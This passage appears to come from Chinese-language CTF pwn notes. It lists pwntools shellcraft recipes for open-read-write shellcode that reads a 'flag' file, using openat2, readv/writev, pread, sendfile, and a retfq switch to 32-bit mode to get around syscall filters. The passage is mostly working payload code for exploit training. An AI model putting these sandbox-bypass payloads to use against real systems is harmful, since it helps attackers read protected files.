 ```python
archc = 'e' if context.arch == 'i386' else 'r'
shellcode = ''
shellcode += shellcraft.pushstr(p64(0) * 3)
shellcode += shellcraft.mov(archc+'dx', archc+'sp')       # rdx = struct open_how{flags=0, mode=0, resolve=0}
shellcode += shellcraft.pushstr('flag')                   # rdi = "flag"
shellcode += shellcraft.openat2(-100, archc+'sp', archc+'dx', 0x18)
payload = asm(shellcode)
```

#### read和write的替代函数

##### readv 和 writev


```python
shellcode = ''
shellcode += shellcraft.open('./flag', 0)
shellcode += shellcraft.mov('rsi', 'rsp')
shellcode += shellcraft.push(0x100)
shellcode += shellcraft.push('rsi')
shellcode += shellcraft.readv('rax', 'rsp', 1)
shellcode += shellcraft.writev(1, 'rsp', 1)
payload = asm(shellcode)
```

在read还可以有多个选择，比如pread

```python
shellcode = ''
shellcode += shellcraft.open('./flag', 0)
shellcode += shellcraft.pread('rax', 'rsp', 0x50, 0)
shellcode += shellcraft.write(1, 'rsp', 0x50)
payload = asm(shellcode)
```

##### sendfile

`shellcraft`的`cat`方法就是`open` + `sendfile`

```python
shellcode = ''
shellcode += shellcraft.cat('flag')
payload = asm(shellcode)
```

#### 利用retfq指令，在i368模式下进行ORW

```python
# 进入32位模式，栈切换到0x10100，读入32位shellcode
shellcode = ''
shellcode += 'lea rsp, [rip + 0x60];' # len >= 0x48
shellcode += shellcraft.amd64.amd64_to_i386()
payload = asm(shellcode, arch='amd64', os='linux')

shellcode = ''
shellcode += shellcraft.i386.linux.open('flag', 0)
shellcode += shellcraft.i386.linux.read('eax', 'esp', 0x100)
shellcode += shellcraft.i386.linux.write(1, 'esp', 'eax')
# shellcode += shellcraft.i386.i386_to_amd64() # 切换回64位
payload += asm(shellcode, arch='i386', os='linux')
```
